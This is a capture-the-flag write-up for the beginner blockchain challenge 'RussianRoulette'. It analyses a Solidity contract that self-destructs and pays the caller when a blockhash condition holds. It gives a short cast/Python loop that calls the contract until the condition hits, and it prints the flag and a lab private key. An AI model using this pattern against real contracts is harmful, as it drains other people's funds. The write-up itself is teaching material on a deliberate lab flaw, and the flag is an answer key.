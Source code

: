 # RussianRoulette

![](./assets/CA_banner.jpg)

> Date: 31<sup>st</sup> January 2024 \
Challenge Author: <font color=#1E9F9A>perrythepwner</font> \
Difficulty: <font color=lightgreen>Very Easy</font> \
Category: <font color=orange> Blockchain</font>

# TL;DR

- This challenge aims to be an entry level / warmup for the blockchain category. In order to solve, players need to send a bunch of transactions until they get lucky (i.e. pulling the trigger until the contract shot himself).


## Description

```
Welcome adventurer.  
This is a warm-up to test if you have what it takes to tackle the thorny challenges of the realm. Are you brave enough to try to win this bag?
```

## Skills Required

- Smart contract interaction.


## Skills Learned

- Smart contract interaction.
- Block dependency


## Challenge scenario

Players will find an instance of a challenge handler when the challenge is launched, as well as the related smart contracts source code.
The main objective of this warmup challenge is to understand how to interact with a smart contract.  
By connecting to the challenge handler they will have 3 possible options:

```shell
$ nc 0.0.0.0 8001
1 - launch new instance
2 - kill instance
3 - get flag
Action? 
```

We must therefore first launch the game instance, which will also give us the information necessary to connect.

```shell
$ nc 0.0.0.0 8001
1 - launch new instance
2 - kill instance
3 - get flag
action? 1
Your private blockchain has been deployed.
It will automatically terminate in 30 minutes.
Here's your connection info:

Team UUID: d2ee1510-3547-41ee-9712-e504f9fa8d7c
Player UUID: bd79e84b-a087-46ef-b815-9df3df2aeff9
RPC URL: http://0.0.0.0:8000/rpc/bd79e84b-a087-46ef-b815-9df3df2aeff9
Player Private Key: 0x891d623949bebefc41dabd95f8e0d9b81f5cc4924f1313c5f045df743fd70d13
Player Address: 0xcC2a1df34de11ea70879867d5b20A924DE684992
Setup Contract: 0x0570156bB596f10cf1354D488F01A9809B0C1F73
Target Contract: 0xf5d50Fe6c395aA0635Ac30039A9B3Fe16C99ef32
```

To connect to the blockchain we can use tools like [web3.py](https://github.com/ethereum/web3.py), [cast](https://book.getfoundry.sh/cast/), etc.
For the later exploitation, `cast` will be used.

## Analyzing the source code

Let's take a look to the given source codes.

**Setup.sol**
```solidity
pragma solidity 0.8.23;

import {RussianRoulette} from "./RussianRoulette.sol";

contract Setup {
    RussianRoulette public immutable TARGET;

    constructor() payable {
        TARGET = new RussianRoulette{value: 10 ether}();
    }

    function isSolved() public view returns (bool) {
        return msg.sender.balance >= 10 ether;
    }
}
```

This will, indeed, setup the challenge istance for us. We understand that a `TARGET` contract will be deployed with `10 ether` in it, and in order to solve to challenge our balance needs to be `>= 10 ether` (stealing them from the newly deployed contract).

**RussianRoulette.sol**
```solidity
pragma solidity 0.8.23;

contract RussianRoulette {

    constructor() payable {
        // i need more bullets
    }

    function pullTrigger() public returns (string memory) {
        if (uint256(blockhash(block.number - 1)) % 10 == 7) {
            selfdestruct(payable(msg.sender)); // 💀
        } else {
		return "im SAFU ... for now";
	    }
    }
}
```
This is the code we need to exploit. We can see that all the logic resides inside the `pullTrigger()` function.  
The `pullTrigger` function will `selfdestruct()` to the interacting address (`msg.sender`) if some conditions are met. Otherwise it'll just return a string telling us that it is [*"SAFU"*](https://www.google.com/search?&q=safu+meaning).

But, what does `selfdestruct()` do?  
From [Solidity 0.8.23 documentation](https://docs.soliditylang.org/en/v0.8.23/introduction-to-smart-contracts.html#deactivate-and-self-destruct) the `selfdestruct` instruction will erase the code from the blockchain for the upcoming blocks, ***and will send all the Ether inside it, to the specified address***.  
In that case, the specified address, is `msg.sender`, which is the address that is sending the transaction in that moment.  
Sounds interesting!

**NOTE**: Starting from Solidity 0.8.24 ("Cancun" upgrade), it'll change the behavior of "selfdestruct". It will no longer clear the contract code unless it's called on the deploying transaction. https://twitter.com/solidity_lang/status/1750775408013046257

**FUN FACT**: did you know that `SELFDESTRUCT` was once called `SUICIDE` and there is a `SELFDESTRUCT` alias for `SUICIDE` in Solidity? Here's the official EIP: https://github.com/ethereum/EIPs/blob/master/EIPS/eip-6.md

Having understood how `selfdestruct()` works in the Solidity version specified in the contract, we need to understand in what circumstances we will be rich.

```solidity
uint256(blockhash(block.number - 1)) % 10 == 7
```

This is the condition we need to trigger, which will simply take the previous block hash, convert it to uint256 (from bytes32), modulo it by 10, and if the reminder is 7, the contract will successfully headshot itself.  
Calling the function a bunch of times until we get lucky will do the work.    
That's called a Block Dependency issue, even if an unprotected selfdestruct on random function calls won't be a smart idea anyway :P


## Exploitation

```python
while True:
    # try luck
    system("cast send $TARGET 'pullTrigger()' --rpc-url $RPC_URL --private-key $PVK") 
    
    # get flag
    with remote("0.0.0.0", HANDLER_PORT) as p:
        p.recvuntil(b"action? ")
        p.sendline(b"3")
        flag = p.recvall().decode()
    if "HTB" in flag:
        print(f"\n\n[*] {flag}")
        break
```

> HTB{99%_0f_g4mbl3rs_quit_b4_bigwin}